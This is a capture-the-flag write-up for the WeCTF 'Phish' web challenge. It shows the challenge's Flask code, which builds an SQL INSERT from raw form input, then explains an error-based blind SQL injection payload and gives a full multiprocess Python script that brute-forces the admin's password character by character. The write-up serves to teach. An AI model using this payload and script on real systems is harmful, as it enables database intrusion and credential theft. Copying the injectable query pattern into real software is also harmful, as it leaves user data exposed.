# [WeCTF](https://ctftime.org/event/1231)
## Task: Phish
##### Tags: `medium` `web`
We get the source code of the phishing site and link to it.
#### Cource code
Many files are html, css to make the site looks similar to apple cloud. But there is a `main.py` file where all server code is.
```python
class User(Model):
    id = AutoField()
    password = CharField()
    username = CharField(unique=True)

    class Meta:
        database = db

@db.connection_context()
def initialize():
    try:
        db.create_tables([User])
        User.create(username="shou", password=os.getenv("FLAG"))
    except:
        pass

initialize()

@app.route("/add", methods=["POST"])
def add():
    username = request.form["username"]
    password = request.form["password"]
    sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"
    try:
        db.execute_sql(sql)
    except Exception as e:
        return f"Err: {sql} <br>" + str(e)
    return "Your password is leaked :)<br>" + \
           """<blockquote class="imgur-embed-pub" lang="en" data-id="WY6z44D"  ><a href="//imgur.com/WY6z44D">Please
        take care of your privacy</a></blockquote><script async src="//s.imgur.com/min/embed.js"
        charset="utf-8"></script> """
```
So, the flag is in the password of the Shou account. And we can see page `/add` that creates a new account. And we can see that there is an INSERT where values go straight from the input. It's SQL injection for sure, and since it returns an error we can perform an error-based SQL injection. We cannot simply get the flag from DB because it does not return any output.
```sql
mark', CASE WHEN substr((SELECT password FROM user WHERE username = 'shou'),1, 1) = 'w' THEN "*random_name*" ELSE "shou" END); --'''
```
I had many troubles with SQLite syntax, but finally, I got it. If the letter is correct we create a new user, if not we get a UNIQUE error because Shou account there for sure.

## Automation
Firstly, I've tried to make fewer requests by checking the format of the flag and get rid of impossible symbols in some places of the flag. But I was making too many errors (to submit flag), so I tried and made pure bruteforce:
```python
import requests
import random
import string
import re
from multiprocessing import Process

alf = []
for i in range(0, 256):  # get any possible letter in alphabet
    if chr(i) == "'":
        continue
    if 'a' <= chr(i) <= 'z' or 'A' <= chr(i) <= 'Z' or '!' <= chr(i) <= '@' or chr(i) in '$%^()=-}{_':
        alf.append(chr(i))

sql_injection = '''mark', CASE WHEN substr((SELECT password FROM user WHERE username = 'shou'),{}, 1) = '{}' THEN "{}" ELSE "shou" END); --'''
data = {"username": "mark"}


def worker(i):  # Finds right i-th letter
    f = open(f"./ans/s_{i}", 'wt')
    for letter in alf:
        random_name = ''.join(random.choice(string.ascii_lowercase) for k in range(100))
        local_data = data
        local_data['password'] = sql_injection.format(i, letter, random_name)
        res = requests.post("http://phish.sg.ctf.so/add", data=local_data)
        if len(re.findall(r'UNIQUE constraint failed', res.text)) == 1:  # Shou's account. wrong letter
            continue
        if len(re.findall(r'Your password is leaked ', res.text)) == 1:  # Right letter
            f.write(letter)
            break


if __name__ == "__main__":
    processes = []
    for i in range(1, 100):  # Made it in 100 processes instead of threads (because of GIL)
        processes.append(Process(target=worker, args=(i,)))
        processes[-1].start()
    for p in processes:
        p.join()
    ans = ''
    for i in range(1, 100):
        f = open(f'./ans/s_{i}')
        a = f.read()
        ans += a
    print(ans)

```
Also, I was too tired of this task and wanted to finish it asap, so I've done Process communication via files for simplicity and submitted the ✨flag✨.
